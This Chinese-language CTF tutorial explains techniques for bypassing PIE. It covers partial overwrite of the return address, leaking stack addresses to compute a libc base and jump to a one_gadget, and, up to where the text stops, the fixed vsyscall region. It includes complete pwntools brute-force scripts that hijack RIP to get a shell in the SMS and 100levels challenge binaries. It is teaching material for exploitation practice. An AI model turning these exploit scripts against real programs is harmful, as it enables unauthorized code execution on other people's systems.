# PIE与bypass思路

## PIE简介

`PIE(position-independent executable, 地址无关可执行文件)`技术就是一个针对代码段`.text`, 数据段`.data`，`.bss`等固定地址的一个防护技术。同ASLR一样，应用了PIE的程序会在每次加载时都变换加载基址，从而使位于程序本身的gadget也失效。
没有PIE保护的程序，每次加载的基址都是固定的，64位上一般是0x400000；相反的，使用PIE保护的程序,每次加载的基址都是不一样的。
由于某些系统和缺陷，其他漏洞的存在和地址随机化本身的问题，我们仍然可能`bypass PIE`。

## partial write bypass PIE

partial write(部分写入)就是一种利用PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为0x1000，这就意味着不管地址怎么变，某条指令的后12位，3个十六进制数的地址是始终不变的。因此通过覆盖EIP的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP
例，`~/DefCamp CTF Finals 2016-SMS/SMS`
载入程序可以发现地址仅有低12位



程序的功能函数dosms调用了两个子功能函数即set_user和set_sms



其中，set_sms函数中存在strncpy函数，可以尝试修改复制字符串长度来达到劫持RIP的目的(strncpy的目的变量(a1)是dosms函数中位于栈上的变量)

```c++
    char *__fastcall set_sms(__int64 a1)
    {
    char s; // [rsp+10h] [rbp-400h]

    memset(&s, 0, 0x400uLL);
    puts("SMS our leader");
    printf("> ", 0LL);
    fgets(&s, 1024, _bss_start);
    return strncpy((char *)a1, &s, *(signed int *)(a1 + 180));
    }
```

因为set_sms和set_user都对同一变量(dosms中的变量v1)操作，所以可以通过set_user中的输入来复写a1+180的值，进而修改strncpy复制字符串的长度，达到溢出的目的。

```c++
    int __fastcall set_user(__int64 a1)
    {
    char s[140]; // [rsp+10h] [rbp-90h]
    int i; // [rsp+9Ch] [rbp-4h]

    memset(s, 0, 0x80uLL);
    puts("Enter your name");
    printf("> ", 0LL);
    fgets(s, 128, _bss_start);
    for ( i = 0; i <= 40 && s[i]; ++i )
        *(_BYTE *)(a1 + i + 140) = s[i];
    return printf("Hi, %s", a1 + 140);
    }
```

此外程序还有一个后门函数frontdoor

```c++
    int frontdoor()
    {
    char s; // [rsp+0h] [rbp-80h]

    fgets(&s, 128, _bss_start);
    return system(&s);
    }
```

不过程序开启了PIE保护，我们并不能确定函数的具体地址，所以不能直接劫持RIP来执行frontdoor函数，不过这里可以尝试爆破。



可以看到frontdoor的地址低12位是0x900,调试可以发现strncpy产生溢出的长度是200(0xC8),此外还要覆写RIP的低16位，所以需要修改strncpy的复制长度为202(0xCA)，所以payload如下：

```python
    payload1 = 'A'*40 + '\xca'  # 通过set_user覆写a1+180的值为0xCA
    payload2 = 'B'*200 + '\x00\xa9' # frontdoor函数的低12位地址为0x900，这里添加四位(0xa)，假设低16位地址为0xa900，当然0xa也可以是0-f中任意一个
```

调试时通过IDA修改内存地址修正爆破位的地址，可以发现这个payload并不能正确覆盖RIP(fgets获取输入被0截断），修改0x900为0x901跳过`push rbp`发现可正常跳转。正确的payload如下：

```python
    payload1 = 'A'*40 + '\xca'  # 通过set_user覆写a1+180的值为0xCA
    payload2 = 'B'*200 + '\x01\xb9' # frontdoor函数的低12位地址为0x900，这里添加四位(0xb)，假设低16位地址为0xb900，当然0xb也可以是0-f中任意一个
```

接下来就是利用脚本实现自动化爆破，首先我们可以发现脚本正常情况下执行会抛出一个EOFError异常



所以通过一个异常处理来使脚本遇到这个异常时能够不间断执行，从而在某一次执行中刚好程序运行的frontdoor函数的实际地址低16位为我们脚本中写的0xa901，接着就可以正常进入函数拿到shell

```python
    from pwn import *

    i = 0
    while True:
        i += 1
        print "the %d th"%i
        p = process('./SMS')
        print p.recv()
        payload1 = 'a'*40 + '\xca'
        p.sendline(payload1)
        print p.recv()
        payload2 = 'b'*200 + '\x01\x09'  # 这里假设实际地址低16位为0x0901
        p.sendline(payload2)
        print p.recv()
        try:
            p.recv(timeout = 1)
        except EOFError:
            p.close()   # 如果触发异常，即地址第16位不为0x0901，那么关闭程序，继续下一趟的尝试
            continue
        else:   # 没有触发异常，说明程序成功调用frontdoor，那么输入参数获取shell
            sleep(1)
            p.sendline('/bin/sh\x00')
            sleep(1)
            p.interactive()
            break
```

运行结果



## 泄露地址bypass PIE

PIE影响程序加载基址，并不会影响指令间的相对地址，因此如果能够泄露出程序或libc的某些地址，就可以利用偏移来达到目的。
例，`~/BCTF 2017-100levels/100levels`
64位的答题程序，要求输入两个数字，相加得到关卡总数，然后计算乘法，溢出点在函数question(0x0000558BE51F8E43)中，  这是一个递归函数，所以可以通过传入参数来控制函数执行次数，接着通过溢出来达到某些目的

```c++
    _BOOL8 __fastcall question(signed int a1)
    {
    int v2; // eax
    __int64 v3; // rax
    __int64 buf; // [rsp+10h] [rbp-30h]
    __int64 v5; // [rsp+18h] [rbp-28h]
    __int64 v6; // [rsp+20h] [rbp-20h]
    __int64 v7; // [rsp+28h] [rbp-18h]
    unsigned int v8; // [rsp+34h] [rbp-Ch]
    unsigned int v9; // [rsp+38h] [rbp-8h]
    unsigned int v10; // [rsp+3Ch] [rbp-4h]

    buf = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    v7 = 0LL;
    if ( !a1 )
        return 1LL;
    if ( (unsigned int)question(a1 - 1) == 0 )
        return 0LL;
    v10 = rand() % a1;
    v2 = rand();
    v9 = v2 % a1;
    v8 = v2 % a1 * v10;
    puts("====================================================");
    printf("Level %d\n", (unsigned int)a1);
    printf("Question: %d * %d = ? Answer:", v10, v9);
    read(0, &buf, 0x400uLL);
    v3 = strtol((const char *)&buf, 0LL, 10);
    return v3 == v8;
    }
```

read函数会读取0x400个字符到栈上，但是程序开启了PIE且没有后门函数，所以并不能通过`partial write`的方法来劫持RIP，但是在IDA中调试可以发现栈上有很多指向libc的地址



此外还可以发现printf的参数位于栈上，通过rbp定位



所以我们可以通过patial overwrite来修改RBP从而指向前面的那一块内存(指向libc的地址的那一段栈空间)，利用泄露出来的地址就可以通过libc计算偏移拿到shell。所以可以通过递归函数第一层构造溢出修改RBP的低8位为0x5c，从而在下一层递归时通过printf泄露位于低8位为0x28处的地址(`[rbp+var_34]=0x5c-0x34=0x28`栈底为高地址，所以这里的`+var_34`实际上为地址值的减法)

```python
    p = process('./100levels')
    print p.recv()
    p.send('1')
    p.recvuntill("levels?")
    p.send('2')
    p.recvuntil("more?")
    p.send('0')

    p.recvuntil("Question: ")
    question = p.recvuntil("=")[:-1]
    answer = str(eval(question))
    payload = answer.ljust(0x30,'\x00') + '\x5c'
    p.send(payload)
    p.recvuntil("Level ")
    addr = int(p.recvuntil("Question: ")[:-10])
    log.info("addr=%#x",addr)
```

通过调试发现低八位为0x00处的地址并不固定，有时候时libc的地址，有时候却不是甚至会出现毫无意义的数据或者直接出错，此外还出现泄露的地址为负数，这是因为只能泄露出地址的低32位，低8个十六进制数。而这个数的最高位可能是0或者1，转换成有符号整数就可能是正负两种情况。因此需要对其进行处理：

```python
    if addr < 0 :
        addr += 0x100000000
```

泄露出来的只是地址的低32位，抛去前面的4个0，我们还需要猜16位，即4个十六进制数。不过，程序加载地址似乎总是在`0x000055XXXXXXXXXX-0x000056XXXXXXXXXX`间徘徊，因此我们的爆破空间缩小到了0x100*2=512次。随便选择一个在这个区间的地址拼上去

```python
    addr += 0x7F4300000000
```

为了加快成功率，显然不可能只针对一种情况做处理，我们可以看到这一块区间有很多libc地址



根据PIE的原理和缺陷，我们可以把后三位作为指纹，识别泄露出来的地址是哪个:

```python
    if hex(addr)[-2:] == '0x7fa':   # puts+16A
        libc_addr = addr - 0x6F690 - 0x16a
    elif hex(addr)[-2:] == '0x620': # _IO_2_1_stdout_
        libc_addr = addr - 0x3C5620
    elif hex(addr)[-2:] == '0x81b': # _IO_file_overflow+EB
        libc_addr = addr - 0x7A730 -0xeb
    elif hex(addr)[-2:] == '0x409': # _IO_do_write+79
        libc_addr = addr - 0x7A390 - 0x79
    elif hex(addr)[-2:] == '0x6a3': # _IO_2_1_stdout_+83
        libc_addr = addr - 0x3C5620 - 0x83
    elif hex(addr)[-2:] == '0x2c0': # write+10
        libc_addr = addr - 0x0F72B0 - 0x10
    elif hex(addr)[-2:] == '0x899': # printf+99
        libc_addr = addr - 0x55800 - 0x99
```

最后针对泄露出来的无意义数据做一下处理，用try...except做一个自动化爆破，形成一个脚本:

```python
    from pwn import *
    i = 0
    while True:
        libc_addr = 0
        i += 1
        p=process('./100levels')
        try:
            print p.recv()
            p.send('1')
            p.recvuntil("levels?")
            p.send('2')
            p.recvuntil("more?")
            p.send('0')

            p.recvuntil("Question: ")
            question = p.recvuntil("=")[:-1]
            answer = str(eval(question))
            payload = answer.ljust(0x30,'\x00') + '\x5c'
            p.send(payload)

            p.recvuntil("Level ")
            addr = int(p.recvuntil("Question: ")[:-10])
            if addr < 0 :
                addr += 0x100000000
            addr += 0x7FF300000000
            if hex(addr)[-3:] == '7fa':   # puts+16A
                libc_addr = addr - 0x6F690 - 0x16a
            elif hex(addr)[-3:] == '620': # _IO_2_1_stdout_
                libc_addr = addr - 0x3C5620
            elif hex(addr)[-3:] == '81b': # _IO_file_overflow+EB
                libc_addr = addr - 0x7A730 -0xeb
            elif hex(addr)[-3:] == '409': # _IO_do_write+79
                libc_addr = addr - 0x7A390 - 0x79
            elif hex(addr)[-3:] == '6a3': # _IO_2_1_stdout_+83
                libc_addr = addr - 0x3C5620 - 0x83
            elif hex(addr)[-3:] == '2c0': # write+10
                libc_addr = addr - 0x0F72B0 - 0x10
            elif hex(addr)[-3:] == '899': # printf+99
                libc_addr = addr - 0x55800 - 0x99

            one_gadget = libc_addr + 0x45216
            log.info("try time %d, leak addr %#x, libc_addr at %#x, one_gadget at %#x" %(i, addr, libc_addr, one_gadget))
            if libc_addr == 0:
                p.close()
                continue
            question = p.recvuntil("=")[:-1]
            answer = str(eval(question))
            payload = answer.ljust(0x38,'\x00') + p64(one_gadget)   # 第二次是劫持RIP，所以偏移是0x38而不是0x30
            p.send(payload)
            p.recv(timeout=1)
            p.recv(timeout=1)
        except EOFError:
            p.close()
            continue
        else:
            p.interactive()
            break
```

值得注意的是虽然第一次修改了RBP的值，第二次写入pyload时，buf到retn的偏移确实固定的，因为buf是相对rbp而言的，所以在栈上buf到rbp的偏移是固定的即0x30，所以无论如何修改rbp，最后通过溢出劫持RIP时溢出偏移量都是固定值0x38



## 使用vdso/vsyscall bypass PIE

在开启了ASLR的系统上运行PIE程序，就意味着所有的地址都是随机化的。然而在某些版本的系统中这个结论并不成立，原因是存在着一个神奇的vsyscall。(不过vsyscall在一部分发行版本中的内核已经被裁减掉了)

```s
    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    00e2f000-00e50000 rw-p 00000000 00:00 0                                  [heap]
    7f2f51279000-7f2f51c38000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f2f51c38000-7f2f51df8000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51df8000-7f2f51ff8000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ff8000-7f2f51ffc000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ffc000-7f2f51ffe000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2f51ffe000-7f2f52002000 rw-p 00000000 00:00 0
    7f2f52002000-7f2f52028000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2f521e5000-7f2f5220a000 rw-p 00000000 00:00 0
    7f2f52227000-7f2f52228000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2f52228000-7f2f52229000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2f52229000-7f2f5222a000 rw-p 00000000 00:00 0
    7fff134cd000-7fff134ee000 rw-p 00000000 00:00 0                          [stack]
    7fff1355d000-7fff13560000 r--p 00000000 00:00 0                          [vvar]
    7fff13560000-7fff13562000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    0140f000-01430000 rw-p 00000000 00:00 0                                  [heap]
    7fbd2c5cf000-7fbd2cf8e000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7fbd2cf8e000-7fbd2d14e000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fbd2d14e000-7fbd2d34e000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fbd2d34e000-7fbd2d352000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fbd2d352000-7fbd2d354000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fbd2d354000-7fbd2d358000 rw-p 00000000 00:00 0
    7fbd2d358000-7fbd2d37e000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fbd2d53b000-7fbd2d560000 rw-p 00000000 00:00 0
    7fbd2d57d000-7fbd2d57e000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fbd2d57e000-7fbd2d57f000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fbd2d57f000-7fbd2d580000 rw-p 00000000 00:00 0
    7fff2825c000-7fff2827d000 rw-p 00000000 00:00 0                          [stack]
    7fff28360000-7fff28363000 r--p 00000000 00:00 0                          [vvar]
    7fff28363000-7fff28365000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    01276000-01297000 rw-p 00000000 00:00 0                                  [heap]
    7f2dac983000-7f2dad342000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f2dad342000-7f2dad502000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2dad502000-7f2dad702000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2dad702000-7f2dad706000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2dad706000-7f2dad708000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f2dad708000-7f2dad70c000 rw-p 00000000 00:00 0
    7f2dad70c000-7f2dad732000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2dad8ef000-7f2dad914000 rw-p 00000000 00:00 0
    7f2dad931000-7f2dad932000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2dad932000-7f2dad933000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f2dad933000-7f2dad934000 rw-p 00000000 00:00 0
    7ffc95d5a000-7ffc95d7b000 rw-p 00000000 00:00 0                          [stack]
    7ffc95dbc000-7ffc95dbf000 r--p 00000000 00:00 0                          [vvar]
    7ffc95dbf000-7ffc95dc1000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    01e41000-01e62000 rw-p 00000000 00:00 0                                  [heap]
    7f43b97f8000-7f43ba1b7000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f43ba1b7000-7f43ba377000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f43ba377000-7f43ba577000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f43ba577000-7f43ba57b000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f43ba57b000-7f43ba57d000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f43ba57d000-7f43ba581000 rw-p 00000000 00:00 0
    7f43ba581000-7f43ba5a7000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f43ba764000-7f43ba789000 rw-p 00000000 00:00 0
    7f43ba7a6000-7f43ba7a7000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f43ba7a7000-7f43ba7a8000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f43ba7a8000-7f43ba7a9000 rw-p 00000000 00:00 0
    7ffe63bd3000-7ffe63bf4000 rw-p 00000000 00:00 0                          [stack]
    7ffe63bf9000-7ffe63bfc000 r--p 00000000 00:00 0                          [vvar]
    7ffe63bfc000-7ffe63bfe000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    020e5000-02106000 rw-p 00000000 00:00 0                                  [heap]
    7f26e2f4a000-7f26e3909000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f26e3909000-7f26e3ac9000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f26e3ac9000-7f26e3cc9000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f26e3cc9000-7f26e3ccd000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f26e3ccd000-7f26e3ccf000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f26e3ccf000-7f26e3cd3000 rw-p 00000000 00:00 0
    7f26e3cd3000-7f26e3cf9000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f26e3eb6000-7f26e3edb000 rw-p 00000000 00:00 0
    7f26e3ef8000-7f26e3ef9000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f26e3ef9000-7f26e3efa000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f26e3efa000-7f26e3efb000 rw-p 00000000 00:00 0
    7ffe95c90000-7ffe95cb1000 rw-p 00000000 00:00 0                          [stack]
    7ffe95d8d000-7ffe95d90000 r--p 00000000 00:00 0                          [vvar]
    7ffe95d90000-7ffe95d92000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

    nop@nop-pwn:~/Desktop$ cat /proc/self/maps
    00400000-0040c000 r-xp 00000000 08:01 261656                             /bin/cat
    0060b000-0060c000 r--p 0000b000 08:01 261656                             /bin/cat
    0060c000-0060d000 rw-p 0000c000 08:01 261656                             /bin/cat
    01f62000-01f83000 rw-p 00000000 00:00 0                                  [heap]
    7f95a9bea000-7f95aa5a9000 r--p 00000000 08:01 532184                     /usr/lib/locale/locale-archive
    7f95aa5a9000-7f95aa769000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f95aa769000-7f95aa969000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f95aa969000-7f95aa96d000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f95aa96d000-7f95aa96f000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7f95aa96f000-7f95aa973000 rw-p 00000000 00:00 0
    7f95aa973000-7f95aa999000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f95aab56000-7f95aab7b000 rw-p 00000000 00:00 0
    7f95aab98000-7f95aab99000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f95aab99000-7f95aab9a000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7f95aab9a000-7f95aab9b000 rw-p 00000000 00:00 0
    7ffd3e348000-7ffd3e369000 rw-p 00000000 00:00 0                          [stack]
    7ffd3e38f000-7ffd3e392000 r--p 00000000 00:00 0                          [vvar]
    7ffd3e392000-7ffd3e394000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

多次执行`cat /proc/self/maps`(ubuntu.16.04下)查看本进程的内存，可以发现其他地址都在变，只有vsyscall一直稳定在0xffffffffff600000-0xffffffffff601000（这里使用`cat /proc/[pid]/maps`的方式而不是使用IDA是因为这块内存对IDA不可见）
现代的Windows/*Unix操作系统都采用了分级保护的方式，内核代码位于R0，用户代码位于R3。许多对硬件和内核等的操作都会被包装成内核函数并提供一个接口给用户层代码调用，这个接口就是我们熟知的int 0x80/syscall+调用号模式。当我们每次调用这个接口时，为了保证数据的隔离，我们需要把当前的上下文(寄存器状态等)保存好，然后切换到内核态运行内核函数，然后将内核函数返回的结果放置到对应的寄存器和内存中，再恢复上下文，切换到用户模式。这一过程需要耗费一定的性能。对于某些系统调用，如gettimeofday来说，由于他们经常被调用，如果每次被调用都要这么来回折腾一遍，开销就会变成一个累赘。因此系统把几个常用的无参内核调用从内核中映射到用户空间中，这就是vsyscall.
把vsycall dump下来观察可以发现有三个系统调用，从上到下分别是gettimeofday, time和getcpu，而且都是通过syscall来实现的



但调试时试图通过修改RIP为`0xffffffffff600007`，即第一个syscall所在地址执行程序时却出现的段错误。显然，没办法直接利用vsyscall中的syscall指令。这是因为vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错。因此，我们唯一的选择就是利用`0xffffffffff600000, 0xffffffffff600400, 0xffffffffff600800`这三个地址。
例，`~/HITB GSEC CTF 2017-1000levels/1000levels`
同样的，程序也有一个hint选项：


这个hint的功能是当全局变量show_hint非空时输出system的地址。由于缺乏任意修改地址的手段，并不能去修改show_hint，但是分析汇编代码，可以发现不管show_hint是否为空，其实system的地址都会被放置在栈上。

